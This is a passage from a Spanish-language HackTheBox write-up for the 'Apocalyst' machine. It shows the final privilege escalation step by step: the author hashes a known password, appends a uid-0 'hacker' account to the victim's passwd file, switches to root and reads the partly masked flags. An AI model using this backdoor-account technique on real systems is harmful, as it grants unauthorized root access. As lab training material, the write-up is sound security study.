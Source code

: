 
En nuestra máquina generamos la password

```bash
❯ mkpasswd -m SHA-512 hacker
$6$Kfas6KpEKTuKg6.N$G34Hz2v5PekYBJN6WRCU42VsK3QhEBENCngc05PxWUTLp68fU3tYth/A/pcukT2ufjiA26lqRmKcfhppkg9oL/
```
En la máquina víctima agregamos una línea tal cual nos explican en Hactricks

```bash
hacker:$6$Kfas6KpEKTuKg6.N$G34Hz2v5PekYBJN6WRCU42VsK3QhEBENCngc05PxWUTLp68fU3tYth/A/pcukT2ufjiA26lqRmKcfhppkg9oL/:0:0:Hacker:/root:/bin/bash
```
Ya podemos conectarnos con las credenciales `hacker:hacker` con privilegios de root

```bash
www-data@apocalyst:/tmp$ su hacker
Password: 
root@apocalyst:/tmp# whoami
root
```

Las flags las encontramos en el directorio de `/home/falaraki/user.txt` y `/root/root.txt`

```bash
root@apocalyst:/home/falaraki# cat /home/falaraki/user.txt
f0e44f5b71cebc74d***************
root@apocalyst:/home/falaraki# cat /root/root.txt
a6237ff44946c2598***************
```

Hemos completado la máquina **Apocalyst** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Apocalyst/pwned.png">
